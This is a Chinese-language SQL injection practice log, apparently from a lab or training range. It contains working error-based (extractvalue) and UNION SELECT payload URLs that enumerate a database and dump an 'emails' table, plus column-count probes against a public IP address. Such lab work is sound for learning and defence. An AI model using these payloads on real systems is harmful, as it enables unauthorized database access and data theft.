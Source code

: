 ### 练习1

- 前面两次练习写的比较详细了,所以这里只展示过程

- 目标url:http://192.168.100.40:64879/string.php?id=1

![image-20240822171501356](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822171501356.png)

- 获取当前网页的``数据库名``

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select database()),0x3a)) --+
```

![image-20240822172548437](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822172548437.png)

- 获取当前网页的数据库的``表名``

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a)) --+
```

![image-20240822173059756](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822173059756.png)

- 获取当前网页的``emails表``中的所有字段

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_name='emails' and table_schema=database()),0x3a)) --+
```

![image-20240822180248392](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822180248392.png)

- 获取``emails表中的所有数据``

```
http://192.168.100.40:64879/string.php?id=-1'union select 1,(select group_concat(id,0x3a,email_id) from security.emails),3 --+
```

![image-20240822180428083](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822180428083.png)

------

### 练习2

- 目标url:http://1.14.28.17:32271/number.php?id=1

- 查看数据库的列数``order by`` 

```sql
http://1.14.28.17:32271/number.php?id=1 order by 3 --+
http://1.14.28.17:32271/number.php?id=1 order by 4 --+
```

